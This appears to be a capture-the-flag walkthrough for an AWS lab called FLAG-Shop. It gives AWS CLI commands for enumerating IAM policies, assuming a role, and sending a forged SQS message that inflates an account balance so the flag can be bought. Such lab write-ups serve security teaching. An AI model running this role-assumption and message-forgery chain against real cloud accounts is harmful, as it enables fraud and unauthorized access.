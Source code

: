   
1. The attacker accesses the web page and identifies the features first
    [ page ] → what can do  
    /        → User can buy items.  
    /receipt → User can see the purchase.  
    /charge  → User can charge the cash.  
  
---

2. The attacker checks the privileges it has
    ```bash
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials
    aws configure --profile [profile_name]
    # This command will give you the ARN & full name of you user.
    aws --profile [profile_name] sts get-caller-identity
    # This command will list the policies attached to your user.
    aws --profile [profile_name] iam list-user-policies --user-name [user_name]
    # This command will view the permissions granted to inline policies.
    aws --profile [profile_name] iam get-user-policy --user-name [user_name] --policy-name [polict_name]
    ```  
    ※ Attacker finds that they have assume-role privileges for a particular role.  
    ※ Attacker looks for clues about how to attack using this privilege.
   
---  

3. Find the web source code. By analyzing the source code, the attacker checks the format of message sent to the SQS service
  
    ※ The website has a github address exposed as an annotation.  
    → https://github.com/BoB12-C-G-V/FLAG-Shop
  
    < Code Analysis Results >  
  -When charging the cash, a message is sent to the SQS service.  
  -The lambda function does not verify the received message.  
  -The message format is `{"charge_amount" : cash}`  
  
    ※ Attacker plans to forge the cache and send message to the SQS service.  
  
---  

4. Assume the the sending message role about SQS service
    ```bash
    # This command will get you credentials for the role that can send message to SQS service
    aws --profile [profile_user] sts assume-role --role-arn [role_arn] --role-session-name [whatever_you_want_here]
    # This command will configure AWS CLI settings for a specific profile, allowing you to set credentials 
    aws configure --profile [assumed_profile_name]
    # This command will appends the obtained session token to the ~/.aws/credentials file
    echo "aws_session_token = {token}" >> ~/.aws/credentials
    ```  
  
---  
  
5. The attacker, who possesses the necessary permissions, sends a forged message to the SQS service queue  
    ```bash
    # This command wil get you queue-url of SQS service
    aws --profile [assumed_profile_name] sqs get-queue-url --queue-name cash_charging_queue
    # This command wil sends a forged message to the SQS service queue
    aws --profile [assumed_profile_name] sqs send-message --queue-url [queue_url] --message-body '{"charge_amount": 100000000}'
    ```  
  
---  
  
6. Check the changed assets, purchase FLAG and check the secret-string
